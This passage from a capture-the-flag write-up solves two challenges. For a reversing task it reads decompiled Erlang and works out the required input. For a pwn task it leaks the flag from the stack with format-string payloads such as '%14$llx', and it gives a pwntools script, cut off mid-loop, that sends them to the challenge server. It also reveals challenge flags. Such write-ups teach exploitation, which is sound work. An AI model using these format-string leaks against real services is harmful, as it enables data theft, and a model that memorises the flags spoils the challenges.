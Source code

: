 ```erlang
convert_input(_string@1) ->
    to_integer('Elixir.String':split('Elixir.String':trim(_string@1))).

main() -> main([]).

main(_args@1) ->
    print_flag(check(convert_input('Elixir.IO':gets(<<"How many bananas do I have?\n">>)))).

print_flag(false) -> 'Elixir.IO':puts(<<"Nope">>);
print_flag(true) ->
    'Elixir.IO':puts('Elixir.File':'read!'(<<"flag.txt">>)).

to_integer([_num@1, _string@1]) ->
    [erlang:binary_to_integer(_num@1), _string@1];
to_integer(_list@1) -> _list@1.
```

Althought I've never seen earlang code we see that there is a suspicious line where there is an operation made with `num@1` wich I guess is part of the input:

```erlang
    (_num@1 + 5) * 9 - 1 == 971;
```

it will return true only if the operation returns `971` so using my math super skills I reversed the equation and got `103`.
But using `103` as the input on the server doesn't work why?

Looking more closely to the code we see that the check is for `num@1` and `"bananas"`. So maybe my input as to be `103 bananas`...

Yes! That was it, using this input the server returns the flag

🏁 _actf{baaaaannnnananananas_yum}_{: .spoiler}

# Pwn

## queue

> _I just learned about stacks and queues in DSA!_<br>
> _nc challs.actf.co xxxxx_<br>
> _Attachments: queue_

Connecting to the challenge we are asked: `What did you learn in class today?` so we can send a string. We can submit a format string like `%p` to see that it returns `Oh nice, 0x7ffe79e8d120`. We can also access directly some parameters in this way:

`%<number_of_parameter>$<format>` for exemple: `%14$llx,%15$llx,%16$llx`; it returns:

`Oh nice, 3474737b66746361,75715f74695f6b63,615f74695f657565`.
We can see with some tries that the flag is here in the stack. So we can script the solution.

```python
from Crypto.Util.number import *
from pwn import *

flag = ""
host =  "challs.actf.co"
port = 31322
for i in range (14, 19, 1):
    r = remote(host, port)
    r.recvuntil(b'? ')
    payload = f'%{i}$llx,%{i+1}$llx'
    r.sendline(bytes(payload, 'utf-8'))
    r.recvuntil(b'Oh nice, ')
    stringa = r.recvline()
    stringa = stringa.decode('utf-8')
```